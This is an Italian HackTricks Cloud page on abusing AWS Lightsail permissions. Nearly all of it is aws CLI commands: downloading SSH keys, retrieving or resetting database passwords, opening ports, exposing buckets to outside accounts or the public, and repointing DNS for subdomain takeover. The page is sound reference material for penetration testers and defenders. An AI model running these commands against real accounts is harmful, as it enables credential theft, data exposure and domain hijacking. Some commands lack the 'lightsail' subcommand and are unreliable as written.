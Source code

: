# AWS - Lightsail Privesc

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## Lightsail

Per ulteriori informazioni su Lightsail controlla:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
È importante notare che Lightsail **non utilizza i ruoli IAM appartenenti all'utente** ma a un account gestito da AWS, quindi non puoi abusare di questo servizio per privesc. Tuttavia, **dati sensibili** come codice, chiavi API e informazioni sul database potrebbero essere trovati in questo servizio.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Questo permesso ti permetterà di ottenere le chiavi SSH per accedere alle istanze:
```
aws lightsail download-default-key-pair
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno delle istanze.

### `lightsail:GetInstanceAccessDetails`

Questo permesso ti permetterà di generare chiavi SSH per accedere alle istanze:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno delle istanze.

### `lightsail:CreateBucketAccessKey`

Questo permesso ti permetterà di ottenere una chiave per accedere al bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno del bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Questo permesso ti permetterà di ottenere le credenziali per accedere al database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno del database.

### `lightsail:UpdateRelationalDatabase`

Questo permesso ti permetterà di cambiare la password per accedere al database:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Se il database non è pubblico, puoi anche renderlo pubblico con queste autorizzazioni con

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impatto Potenziale:** Trovare informazioni sensibili all'interno del database.

### `lightsail:OpenInstancePublicPorts`

Questo permesso consente di aprire porte su Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impatto Potenziale:** Accesso a porte sensibili.

### `lightsail:PutInstancePublicPorts`

Questo permesso consente di aprire porte su Internet. Nota che la chiamata chiuderà qualsiasi porta aperta non specificata in essa.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impatto Potenziale:** Accesso a porte sensibili.

### `lightsail:SetResourceAccessForBucket`

Questa autorizzazione consente di dare a un'istanza accesso a un bucket senza credenziali aggiuntive.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impatto Potenziale:** Potenziale nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateBucket`

Con questo permesso un attaccante potrebbe concedere al proprio account AWS accesso in lettura sui bucket o addirittura rendere i bucket pubblici per tutti:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impatto Potenziale:** Potenziale nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateContainerService`

Con questi permessi, un attaccante potrebbe concedere accesso a ECR privati dal servizio di container.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impatto Potenziale:** Ottenere informazioni sensibili da ECR privato

### `lightsail:CreateDomainEntry`

Un attaccante con questo permesso potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (presa di possesso del sottodominio), o creare un record SPF che gli consenta di falsificare email dal dominio, o addirittura impostare il dominio principale sul proprio indirizzo IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto Potenziale:** Prendere il controllo di un dominio

### `lightsail:UpdateDomainEntry`

Un attaccante con questo permesso potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (presa di controllo del sottodominio), o creare un record SPF che gli consenta di falsificare email dal dominio, o addirittura impostare il dominio principale al proprio indirizzo IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto Potenziale:** Prendere il controllo di un dominio

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
